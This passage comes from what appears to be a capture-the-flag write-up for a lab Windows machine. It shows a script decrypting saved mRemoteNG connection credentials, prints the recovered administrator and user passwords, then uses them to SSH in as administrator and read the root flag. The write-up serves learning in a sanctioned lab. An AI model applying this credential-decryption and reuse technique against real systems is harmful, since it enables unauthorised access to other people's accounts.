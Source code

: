 ```

root@kali# ./mRemoteNG-decrypt.py confCons.xml-orig 
[+] Found nodes: 2

Username: Administrator
Password: thXLHM96BeKL0ER2

Username: L4mpje
Password: bureaulampje

```

This script is also available [on my Gitlab](https://gitlab.com/0xdf/ctfscripts).

### SSH as administrator

With that password, I can ssh in as administrator:

```

root@kali# ssh administrator@10.10.10.134
administrator@10.10.10.134's password:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>

```

And I can grab `root.txt`:

```

administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
958850b9...

```